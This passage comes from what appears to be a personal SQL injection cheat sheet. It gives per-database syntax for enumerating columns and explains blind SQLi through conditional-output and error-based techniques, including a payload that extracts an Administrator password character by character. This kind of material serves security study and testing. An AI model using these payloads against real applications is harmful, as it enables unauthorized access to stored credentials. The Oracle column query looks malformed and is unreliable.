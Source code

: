 #### Columns
| host | syntax|
| ---- | ----- |
| Oracle | `SELECT all_tab_columns WHERE table_name = 'example-table'` |
| Microsoft | `SELECT * from information_schema.columns WHERE table_name = 'example-table'` |
| PostgreSQL | `SELECT * from information_schema.columns WHERE table_name = 'example-table'` |
| MySQL | `SELECT * from information_schema.columns WHERE table_name = 'example-table'` |

# Blind SQLi 
When an app is vulnerable to SQLi but the HTTP response doesn't contain the result of the query or the details of the DB errors.
Things like UNION attacks aren't effective because they rely on seeing the injected query's results in the response

## Techniques
### Conditional Output
Inject something like `' AND 1=1` or `' AND 1=2` and see how the app responds. 
Useful with things like brute-forcing a password using the `SUBSTRING()` method. 

#### Substring Method
| host | syntax|
| ---- | ----- |
| Oracle | `SUBSTR('foobar', 4, 2)` |
| Microsoft | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL | `SUBSTRING('foobar', 4, 2)` |

### Error-Based 
#### Conditional Errors
Error only triggers if a condition is true. 

```
Ex.
  ' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a

When the first letter in the password for administrator is greater than m, a divide by zero error occurs,
otherwise it should proceed as normal
```

| host | syntax|
| ---- | ----- |
| Oracle | `SELECT CASE WHEN (condition) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (condition) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (condition) THEN 1/(SELECT 0) ELSE NULL END` |
| MySQL | `SELECT IF(condition, (SELECT table-name FROM information_schema.tables),'a')` |

